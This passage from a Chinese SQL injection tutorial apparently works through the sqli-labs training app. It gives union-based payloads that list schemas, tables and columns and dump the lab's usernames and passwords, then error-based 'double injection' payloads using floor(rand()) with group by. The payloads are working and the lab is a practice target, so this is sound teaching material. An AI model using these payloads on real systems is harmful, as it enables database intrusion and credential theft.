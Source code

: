 这里可以通过第五种注入获取到Your Login name : information_schema, challenges, mysql, performance_schema, security, sys
Your Password:3

对于security会比较关注，这里进一步获取其中信息：

```
?id=1' AND 1=2 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3--+
//获得Your Login name:emails,referers,uagents,users Your Password:3

对于其中users表进一步获取列名
?id=1' AND 1=2 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'),3--+
//获得Your Login name:id,username,password Your Password:3

对于其中用户名和密码进行获取
?id=1' AND 1=2 union select 1,group_concat(username),group_concat(password) from users--+
//获得Your Login name:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
//Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```

至此通过sql注入获取了其数据库中关键信息，当然密码可能是MD5加密的需要解密。



### Double Injection

rand()返回一个[0,1)随机数，左闭右开。floor()函数是向下取整，一个float参数，返回小于等于输入参数的最大整数。count()函数用于计数。

```
select floor(rand(14)*2) from information_schema.columns limit 5;
以14作为种子时产生的随机整数数列前四位为1010，此时两列便可出错，当使用0作为种子此时3列才会出错，可见当不指定种子只要列数足够多其实就会出错。

select table_schema, count(*) from information_schema.tables group by table_schema;
统计出各个模式有多少张表

select floor(rand(14)*2) c, count(*) from information_schema.columns group by c;
列c是随机整数数列的别名，此时会报错ERROR 1062 (23000): Duplicate entry '0' for key 'group_key'，常常使用columns表因为存在很多行总能出错。
```

根据错误信息，便可以获取到我们需要的信息：

```
select concat((select database()), floor(rand(14)*2)) c, count(*) from information_schema.columns group by c;
select concat((select user from mysql.user limit 1), floor(rand(14)*2)) c, count(*) from information_schema.columns group by c;
select concat((select password from mysql.user limit 1), floor(rand(14)*2)) c, count(*) from information_schema.columns group by c;

实际注入中使用：
?id=1' union select 1,concat((select database()), floor(rand(14)*2)) c, count(*) from information_schema.columns group by c %23
//返回Duplicate entry 'root@localhost0' for key ''

通过调整limit对数据库中表名进行读取
?id=1' union select 1,concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand(14)*2)) c,count(*) from information_schema.columns group by c %23

通过调整limit对users表中列进行读取
?id=1' union select 1,concat((select column_name from information_schema.columns where table_name='users' limit 4,1),floor(rand(14)*2)) c,count(*) from information_schema.columns group by c %23
//此处表中limit 4，1时为username列名，limit 5，1时为password列名

```